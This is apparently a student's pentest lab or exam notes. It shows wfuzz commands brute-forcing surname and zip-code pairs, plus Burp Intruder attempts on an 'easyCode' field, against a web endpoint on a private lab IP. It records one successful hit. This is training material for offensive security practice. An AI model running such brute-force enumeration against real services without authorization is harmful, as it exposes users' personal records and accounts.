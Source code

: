 going to attempt to `fuzz` again with `/usr/share/seclists/Usernames/Names/familynames-usa-top1000.txt` as the last names list and `/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt` as the zip code, if this doesn't work can utilize the custom made `zip code` list again

```bash
┌──(root💀gobots)-[07Jan2025 04:25:46]-[/usr/share/seclists/Fuzzing]
└─# wfuzz -c -z file,/usr/share/seclists/Usernames/Names/familynames-usa-top1000.txt -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --sc 200 -d "easyCode=&lastname=FUZZ&zipcode=FUZ2Z" http://192.168.61.65:80/searchStatement   
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.61.65:80/searchStatement
Total requests: 100000000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

```
- uh this is `100 million` requests, and probably will not finish by the time i finish the exam, going to try the zip codes but ill keep this running

this is also an astronomical number not going to be able to fuzz
```bash
┌──(root💀gobots)-[07Jan2025 04:31:01]-[/home/kali/SUT/192.168.61.65]
└─# wfuzz -c -z file,/usr/share/seclists/Usernames/Names/familynames-usa-top1000.txt -z file,/home/kali/SUT/192.168.61.65/zipcodes.txt --sc 200 -d "easyCode=&lastname=FUZZ&zipcode=FUZ2Z" http://192.168.61.65:80/searchStatement   
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.61.65:80/searchStatement
Total requests: 43628000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000005997:   302        0 L      0 W        0 Ch        "SMITH - 06880"    
```
- going to try just fuzzing the `easyCode` with 3 digits list to see how long that takes and incrementing the lists

`sniper attack- 3 digits
![[Pasted image 20250106233735.png]]
3 digits
![[Pasted image 20250106233825.png]]
4 digits
![[Pasted image 20250106233942.png]]5 digits
put `hahaha` in as a solution
![[Pasted image 20250106235031.png]]
![[Pasted image 20250106235048.png]]
6 digits - taking forever- burpsuite crashed... not the way